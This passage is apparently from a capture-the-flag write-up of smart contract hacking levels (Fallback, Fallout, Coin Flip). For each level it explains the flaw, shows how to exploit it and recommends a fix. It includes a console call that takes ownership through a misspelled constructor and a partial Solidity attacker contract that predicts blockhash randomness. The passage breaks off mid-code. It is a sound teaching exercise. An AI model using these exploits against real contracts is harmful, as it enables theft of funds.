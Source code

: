 When this happens, the contract's "receive" function is triggered, which makes the attackers address the new contract owner, allowing them to have admin rights and withdraw the contract's ether balance.

#### My Recommendation(s)
Remove the logic inside the “receive” function that sets “msg.sender” to the new contract owner based on predefined conditions.

## Level Two - Fallout:
This level can be hacked by becoming the contract owner.

#### The Vulnerability
The constructor is just a misspelled public function `fal1out()` that can be called anyone and came ownership of the contract.

#### How it can be exploited
Call the `Fal1out()` function in the console.

```javascript
await contract.Fal1out()
```

#### My Recommendation(s)
Up until solidity version `0.4`, a constructor can be defined by the same name as its contract name. However, this is no longer supported in recent versions and all constructors should be named with the `constructor` keyword. When using recent versions of solidity, ensure to use the `constructor` keyword.

## Level Three - Coin Flip:
You have to make a correct boolean guess 10 times to hack this level.

#### The Vulnerability
The contract uses `block.number` and `blockhash` as a source of randomness, which is not secure since they are deterministic.

#### How it can be exploited
Create an attacking contract that calls the "CoinFlip" contract with the same logic.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ICoinFlip {
    function flip(bool _guess) external  returns (bool);
}

contract CoinFlipAttacker {
  ICoinFlip public CoinFlip;

  constructor(address _CoinFlip) {
      CoinFlip =  ICoinFlip(_CoinFlip);
  }


 // call this function 10 times, in different blocks
  function attack() external {
  // simulate the same thing the "CoinFlip" contract does and call the contract with your value.
  // since both logic are the same, the values will be the same
      
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    bool side = coinFlip == 1 ? true : false;
  
```